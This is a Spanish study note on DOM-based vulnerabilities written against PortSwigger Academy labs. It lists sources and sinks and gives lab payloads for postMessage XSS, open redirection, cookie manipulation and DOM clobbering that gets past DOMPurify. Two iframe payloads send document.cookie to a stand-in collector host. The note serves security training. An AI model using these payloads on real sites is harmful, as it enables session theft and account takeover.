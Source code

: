 ## ¿Qué es el DOM?

El **Document Object Model (DOM)** es una representación jerárquica de los elementos existentes en una página web. Los sitios web pueden utilizar Javascript para manipular nodos y objectos del DOM, así como sus propiedades.

La manipulación del **DOM** en sí no es un problema, de hecho, es una parte integral de cómo funcionan los portales web modernos. Sin embargo, **Javascript** puede manejar datos de forma poco seguro permitiendo habilitar que sea vulnerable a diferentes tipos de ataques.

Las vulnerabilidades basadas en **DOM** surgen cuando un sitio web contiene **Javascript** que toma un valor que el atacante puede controlar, conocido como **fuente** (**source** en inglés) y lo pasa a una **función peligrosa**, conocida como **sumidero** (**sink** en inglés).

* Source: `location.search`
* Sink: `eval()` OR Sink HTML: `document.body.InnerHTML`

### Fuentes comunes

```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
AddEventListener
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
### Sumideros Comunes:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

<hr>

- Source: **AddEventListener** `Primeros 3 labs, resumidos.`
	- LAB: DOM XSS Web Messages
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

	* LAB: DOM XSS Web Messages Javascript:url
    - `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`
    - 
	*  LAB: DOM XSS Web Messages & **JSON** Parse
    - `<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

#### Pequeño ejemplo para filtrar la Cookie: 

```js
//Filtrar la cookie: 
<iframe src="https://0a49000e03ea172382c2f1c100f3001b.web-security-academy.net/" 
onload="this.contentWindow.postMessage('javascript:fetch(`https://colaborador.com?cookie=${document.cookie}`)//http:','*')">
</iframe>
```

- Check for DOM redirections (parameters hidden in source code)
- Cookies containing URLs

<hr>
### Steal a cookie:

```
<iframe src="https://TARGET.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>','*')">
```

### DOM XSS using web messages

```
Notice that the home page contains an addEventListener() call that listens for a web message.

Go to the exploit server and add the following iframe to the body. Remember to add your own lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL

```
Notice that the home page contains an addEventListener() call that listens for a web message. 
The JavaScript contains a flawed indexOf() check that looks for the strings "http:" or "https:" anywhere within the web message. It also contains the sink location.href.

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### DOM XSS using web messages and JSON.parse

```
Notice that the home page contains an event listener that listens for a web message. This event listener expects a string that is parsed using JSON.parse(). In the JavaScript, we can see that the event listener expects a type property and that the load-channel case of the switch statement changes the iframe src attribute.

<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM Based Open Redirection `location.href`

```js
//PAYLOAD: & `Location.href`
The blog post page contains the following link, which returns to the home page of the blog:

<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

//Y mandamos la URL para que cargue el server exploit así:
* https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/
```

### DOM Based Cookie Manipulation

```js
//PAYLOAD: & `Cookie: SameSite=None`
//El problema recae en que la cookie es controlable por el atacante
1. Notice that the home page uses a client-side cookie called `lastViewedProduct`, whose value is the URL of the last product page that the user visited.
2. Go to the exploit server and add the following `iframe` to the body, remembering to replace `YOUR-LAB-ID` with your lab ID:

<iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">

//encoded a URL, en caso tal de que no funcionara así.

```

### DOM Clobbering to Enable XSS

```js
//La sección de comentarios implementa un script vulnerable el cual usa sumideros inseguros como xmlHttpRequest
//En la seccion de comentarios HTML tiré un: <img src=x onerror=alert(1)> y coló WTFjaja, pero la solución real es: 
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

//Está parseado en HTML pero en esencia es lo mismo que la teoria, en este caso se tomo la variable de `defaultAvatar`

- DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`

```

Eso es todo de dom, ave maría.